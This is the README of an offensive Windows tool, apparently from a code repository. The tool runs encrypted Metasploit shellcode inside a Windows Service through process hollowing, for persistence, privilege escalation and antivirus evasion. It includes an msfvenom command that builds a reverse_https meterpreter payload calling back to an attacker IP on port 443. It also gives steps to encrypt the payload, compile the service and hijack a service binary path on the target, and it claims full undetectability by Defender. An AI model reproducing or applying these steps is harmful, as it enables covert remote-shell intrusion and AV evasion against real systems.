 <p align="center">
    <img src="/img/8-EoupSza0CCIElrl.png" alt="Logo" width="350" height="350">
</p>
This program is a Windows Service that utilizes the 'process hollowing' technique to run shellcode. It requires the ROT-encrypted shellcode that the user will create using the HollowCrypt program. I created this because there were moments when I needed a custom and straightforward way to run Metasploit shellcode on a Windows Service for persistence/privilege escalation, and using common tools would trigger the AV over my binaries... 


## How to use it

First, we need to create our shellcode:
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.147 LPORT=443 EXITFUNC=thread -f csharp
```

Then, edit the HollowCrypt source code , compile and execute:
```
HollowCrypt.exe
```

After that, replace the encrypted shellcode in the HollowSVC source code. 
Now  compile the service in the arch of your target, setup your listener, hijack the binary/path in the target and run!

## POC
Running service with path to HollowSVC executable:
<p align="center">
  <img src="/img/legitsvc2.png" alt="legitsvc2" width="350" height="350">
</p>

Meterpreter retrieved:
<p align="center">
  <img src="/img/legitsvc3.png" alt="legitsvc3" width="700" height="150">
</p>

Defender FUD:
<p align="center">
  <img src="/img/legitsvc4.png" alt="legitsvc4" width="500" height="350">
</p>
And remember, there is always ways to improve this!
